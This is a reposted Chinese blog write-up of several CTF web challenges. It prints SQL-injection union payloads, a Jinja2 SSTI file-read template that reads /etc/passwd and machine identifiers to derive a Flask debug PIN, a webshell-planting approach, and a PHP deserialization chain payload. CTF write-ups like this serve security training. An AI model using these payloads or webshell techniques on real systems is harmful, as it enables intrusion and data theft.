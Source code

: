 <!--yml
category: 未分类
date: 2022-04-26 14:31:57
-->

# ctf中文转unicode_CTF实战题解笔记 - Web篇_weixin_39707597的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_39707597/article/details/111630980](https://blog.csdn.net/weixin_39707597/article/details/111630980)

CTF(Capture The Flag)中文一般译作夺旗赛，在网络安全领域中指的是网络安全技术人员之间进行技术竞技的一种比赛形式。

起源于1996年DEFCON全球黑客大会，后以CTF代替之前黑客们通过互相发起真实攻击进行技术比拼的方式。

CTF一般分为三种模式：解题模式、攻防模式、混合模式。今天我们就来跟大家分享一下CTF中Web的解题笔记，有些枯燥，大家凑合看吧@-@。。。

web部分是CTF的重要组成部分之一，素有WEB大魔王之称，题目种类繁多，关键是如何发。现漏洞的类型和怎样构造特殊的负载绕过过滤。

# **简单的招聘系统**

存在 sql 注入 使用 sqlmap 可以 跑出 来手 动构 造一 下

1' or 1 order by 5#正常回显

1' or 1 order by 6#报错

-1' union select 1,2,3,4,5#

是在 2 字段

1' union select 1,group_concat(table_name),3,4,5 from information_schema.tables where table_schema=database()#

1' union select 1,group_concat(column_name),3,4,5 from information_schema.columns where table_schema=database()#

1' union select 1,flaaag,3,4,5 from flag#

**easy_thinking**

这道 题利 用 tp6 的任意文件操 作 + 绕过 disable_function 的脚本

先登录，抓搜索的 包，改 phpsession ，会在 http://123.57.212.112:7891/runtime/session/) 目

录下 生成 sess_xxxxxx 的文 件

接着 写个 shell，用蚁剑连接 上去

由于 这个 shell 上传文件失败

只能利 用 shell 往这个网页写个后门 ，然 后再 连接，往 session 目录上传绕过 disable_function 的脚本。

# CTF实战题解 – 代码审计篇

**easysqli_copy**

通过代码审计发现宽字节注入+存储过程绕过+语句转十六进制

Payload 如下

将 url 替换 即可

**Flaskapp**

这一 道利 用 SSTI 去读 取文 件， 然后 获取 pin 码来打开 python shell Ssti 的读 文件 payload

{% for c in [].__class__.__base__.__subclasses__() %}

{% if c.__name__=='catch_warnings' %}

{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}

{% endif %}{% endfor %}

依次 去读 /sys/class/net/eth0/address , /proc/self/cgroup，/etc/passswd/

并通 过 debug 看 app.py 的绝对路 径

改下 网上 的脚 本参 数， 就可 以生 成 pin 码了，就 可以 打开 shell

**Ezupload**

上传 发现任 何防护 直 接 传 个 一 句 话 连 接 上

在虚拟终端里切换到根目录 发现个 flag 但是不能 cat 执行 一下 ./readflag 拿到 flag

又发现 readflag 发现是个执行文件

**Babyphp**

发现 www.zip 源码泄露

update.php 为真则可以拿 到 flag

发现 有反 序列 话语 句 类中寻找可用的方法， 构造 rop age=&nickname=''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''

''''''''''''''''''''''''''''''unionunionunion";s:8:"CtrlCase";O:12:"UpdateHe

lper":3:{s:2:"id";N;s:7:"newinfo";N;s:3:"sql";O:4:"User":3: {s:2:"id";N;s:3:"age";s:45:"select password,id from user where username=?";s:8:"nickname";O:4:"Info":3: {s:3:"age";s:0:"";s:8:"nickname";s:1:"1";s:8:"CtrlCase";O:6:"dbCtrl":8:

{s:8:"hostname";s:9:"127.0.0.1";s:6:"dbuser";s:7:"noob123";s:6:"dbpass";s:7:

"noob123";s:8:"database";s:7:"noob123";s:4:"name";s:5:"admin";s:8:"password" ;N;s:6:"mysqli";

N;s:5:"token";s:5:"admin";}}}}}

如果你想跟我讨论CTF的解题思路，欢迎私信回复【入群】，加入安界网安全大咖学习交流群，与众多网安小伙伴一起进步。。

小白入行网络安全、混迹安全行业找大咖，以及更多成长干货资料，欢迎关注#安界网人才培养计划#、#网络安全在我身边#、@安界人才培养计划。

我是安仔，一名刚入职网络安全圈的网安萌新，欢迎关注我，跟我一起成长；